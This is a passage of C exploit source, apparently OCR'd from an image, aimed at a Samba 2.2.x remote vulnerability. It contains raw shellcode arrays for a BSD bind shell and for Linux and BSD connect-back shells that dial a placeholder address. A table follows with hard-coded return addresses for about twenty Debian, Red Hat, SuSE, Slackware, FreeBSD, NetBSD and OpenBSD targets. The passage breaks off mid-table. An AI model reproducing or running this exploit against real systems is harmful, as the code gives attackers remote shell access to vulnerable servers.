     char bsd_bindcode[] =
            "\x31\xc0\x31\xdb\x53\xb3\x06\x53\xb3\x01\x53\xb3\x02\x53\x54\xb0"
            "\x61\xcd\x80\x89\xc7\x31\xc0\x50\x50\x50\x66\x68\xb0\xef\xb7\x02"
            "\x66\x53\x89\xe1\x31\xdb\xb3\x10\x53\x51\x57\x50\xb0\x68\xcd\x80"
            "\x31\xdb\x39\xc3\x74\x06\x31\xc0\xb0\x01\xcd\x80\x31\xc0\x50\x57"
            "\x50\xb0\x6a\xcd\x80\x31\xc0\x31\xdb\x50\x89\xe1\xb3\x01\x53\x89"
            "\xe2\x50\x51\x52\xb3\x14\x53\x50\xb0\x2e\xcd\x80\x31\xc0\x50\x50"
            "\x57\x50\xb0\x1e\xcd\x80\x89\xc6\x31\xc0\x31\xdb\xb0\x02\xcd\x80"
            "\x39\xc3\x75\x44\x31\xc0\x57\x50\xb0\x06\xcd\x80\x31\xc0\x50\x56"
            "\x50\xb0\x5a\xcd\x80\x31\xc0\x31\xdb\x43\x53\x56\x50\xb0\x5a\xcd"
            "\x80\x31\xc0\x43\x53\x56\x50\xb0\x5a\xcd\x80\x31\xc0\x50\x68\x2f"
            "\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x54\x53\x50\xb0\x3b"
            "\xcd\x80\x31\xc0\xb0\x01\xcd\x80\x31\xc0\x56\x50\xb0\x06\xcd\x80"
            "\xeb\x9a";

    char linux_connect_back[] =
            "\x31\xc0\x31\xdb\x31\xc9\x51\xb1\x06\x51\xb1\x01\x51\xb1\x02\x51"
            "\x89\xe1\xb3\x01\xb0\x66\xcd\x80\x89\xc2\x31\xc0\x31\xc9\x51\x51"
            "\x68\x41\x42\x43\x44\x66\x68\xb0\xef\xb1\x02\x66\x51\x89\xe7\xb3"
            "\x10\x53\x57\x52\x89\xe1\xb3\x03\xb0\x66\xcd\x80\x31\xc9\x39\xc1"
            "\x74\x06\x31\xc0\xb0\x01\xcd\x80\x31\xc0\xb0\x3f\x89\xd3\xcd\x80"
            "\x31\xc0\xb0\x3f\x89\xd3\xb1\x01\xcd\x80\x31\xc0\xb0\x3f\x89\xd3"
            "\xb1\x02\xcd\x80\x31\xc0\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f"
            "\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0"
            "\x01\xcd\x80";

    char bsd_connect_back[] =
            "\x31\xc0\x31\xdb\x53\xb3\x06\x53\xb3\x01\x53\xb3\x02\x53\x54\xb0"
            "\x61\xcd\x80\x31\xd2\x52\x52\x68\x41\x41\x41\x41\x66\x68\xb0\xef"
            "\xb7\x02\x66\x53\x89\xe1\xb2\x10\x52\x51\x50\x52\x89\xc2\x31\xc0"
            "\xb0\x62\xcd\x80\x31\xdb\x39\xc3\x74\x06\x31\xc0\xb0\x01\xcd\x80"
            "\x31\xc0\x50\x52\x50\xb0\x5a\xcd\x80\x31\xc0\x31\xdb\x43\x53\x52"
            "\x50\xb0\x5a\xcd\x80\x31\xc0\x43\x53\x52\x50\xb0\x5a\xcd\x80\x31"
            "\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x54"
            "\x53\x50\xb0\x3b\xcd\x80\x31\xc0\xb0\x01\xcd\x80";



    struct {
            char *type;
            unsigned long ret;
            char *shellcode;
            int os_type;    /* 0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD non-exec stack */

    } targets[] = {
            { "samba-2.2.x - Debian 3.0           ", 0xbffffea2, linux_bindcode, 0 },
            { "samba-2.2.x - Gentoo 1.4.x         ", 0xbfffe890, linux_bindcode, 0 },
            { "samba-2.2.x - Mandrake 8.x         ", 0xbffff6a0, linux_bindcode, 0 },
            { "samba-2.2.x - Mandrake 9.0         ", 0xbfffe638, linux_bindcode, 0 },
            { "samba-2.2.x - Redhat 9.0           ", 0xbffff7cc, linux_bindcode, 0 },
            { "samba-2.2.x - Redhat 8.0           ", 0xbffff2f0, linux_bindcode, 0 },
            { "samba-2.2.x - Redhat 7.x           ", 0xbffff310, linux_bindcode, 0 },
            { "samba-2.2.x - Redhat 6.x           ", 0xbffff2f0, linux_bindcode, 0 },
            { "samba-2.2.x - Slackware 9.0        ", 0xbffff574, linux_bindcode, 0 },
            { "samba-2.2.x - Slackware 8.x        ", 0xbffff574, linux_bindcode, 0 },
            { "samba-2.2.x - SuSE 7.x             ", 0xbffffbe6, linux_bindcode, 0 },
            { "samba-2.2.x - SuSE 8.x             ", 0xbffff8f8, linux_bindcode, 0 },
            { "samba-2.2.x - FreeBSD 5.0          ", 0xbfbff374, bsd_bindcode, 1 },
            { "samba-2.2.x - FreeBSD 4.x          ", 0xbfbff374, bsd_bindcode, 1 },
            { "samba-2.2.x - NetBSD 1.6           ", 0xbfbfd5d0, bsd_bindcode, 1 },
            { "samba-2.2.x - NetBSD 1.5           ", 0xbfbfd520, bsd_bindcode, 1 },
            { "samba-2.2.x - OpenBSD 3.2          ", 0x00159198, bsd_bindcode, 2 },
            { "samba-2.2.8 - OpenBSD 3.2 (package)", 0x001dd258, bsd_bindcode, 2 },
            { "samba-2.2.7 - OpenBSD 3.2 (package)", 0x001d9230, bsd_bindcode, 2 },
            { "samba-2.2.5 - OpenBSD 3.2 (package)", 0x001d6170, bsd_bindcode, 2 },
            { "Crash (All platforms)              ", 0xbade5dee, linux_bindcode, 0 },